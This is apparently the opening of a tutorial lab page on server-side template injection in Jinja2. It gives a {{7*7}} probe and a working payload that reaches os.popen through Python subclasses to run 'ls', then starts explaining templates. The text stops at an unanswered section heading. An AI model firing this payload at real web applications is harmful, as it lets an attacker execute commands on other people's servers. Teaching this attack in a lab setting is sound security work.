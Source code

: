 Remote Code Execution on Jinja - SSTI Lab

###################################
https://secure-cookie.io/attacks/ssti/
###################################

Tags:

    web attack ssti injection rce remote code execution 

Table of contents

    TL;DR - show me the fun part❗
    What is template❓
    What is server side template injection❓
    How is that exploitable❓
    Remote Code execution 💥
    Show me the source code of the vulnerable app 👀
    What tool did you use in the video❓
    Questions❓
    References

TL;DR - show me the fun part❗

    Open the app

    Discover template injection –>

    {{7*7}}

    Execute “ls” command –>

    {{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}

    Get paid, maybe?

Sorry, your browser doesn't support embedded videos.
What is template❓

In simple words, it’s an HTML file that contains variables. Something like

<h1>{{greeting}}!</h1>

Depending on the template type, a variable greeting is defined between {{ }}.

If we pass “hello username” to greeting, then the HTML would be

<h1>hello username!</h1>

A common example is, when a user login into app, the app fetch the name of the user and pass it to greeting variable. The user will see

hello username!

So templates are used by backend app to render data dynamically into HTML.

Depending on the backend programming language, there are different types of web template. Such as Jinja2(Python), Twig(PHP), FreeMarker(Java).
What is server side template injection❓
